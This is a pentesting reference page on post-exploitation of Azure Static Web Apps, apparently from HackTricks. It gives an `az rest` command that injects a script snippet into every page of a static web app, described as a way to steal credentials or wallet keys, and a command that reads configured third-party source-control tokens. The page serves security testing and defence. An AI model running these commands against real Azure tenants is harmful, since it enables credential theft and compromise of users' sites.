 # Az - Static Web Apps Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Azure Static Web Apps

For more information about this service check:

{{#ref}}
../az-services/az-static-web-apps.md
{{#endref}}

### Microsoft.Web/staticSites/snippets/write

It's possible to make a static web page load arbitary HTML code by creating a snippet. This could allow an attacker to inject JS code inside the web app and steal sensitive information such as credentials or mnemonic keys (in web3 wallets).

The fllowing command create an snippet that will always be loaded by the web app::

```bash
az rest \
    --method PUT \
    --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/staticSites/<app-name>/snippets/<snippet-name>?api-version=2022-03-01" \
    --headers "Content-Type=application/json" \
    --body '{
        "properties": {
            "name": "supersnippet",
            "location": "Body",
            "applicableEnvironmentsMode": "AllEnvironments",
            "content": "PHNjcmlwdD4KYWxlcnQoIkF6dXJlIFNuaXBwZXQiKQo8L3NjcmlwdD4K",
            "environments": [],
            "insertBottom": false
        }
    }'
```

### Read Configured Third Party Credentials

As explained in the App Service section:

{{#ref}}
../az-privilege-escalation/az-app-services-privesc.md
{{#endref}}

Running the following command it's possible to **read the third party credentials** configured in the current account. Note that if for example some Github credentials are configured in a different user, you won't be able to access the token from a different one.

```bash
az rest --method GET \
  --url "https://management.azure.com/providers/Microsoft.Web/sourcecontrols?api-version=2024-04-01"
```
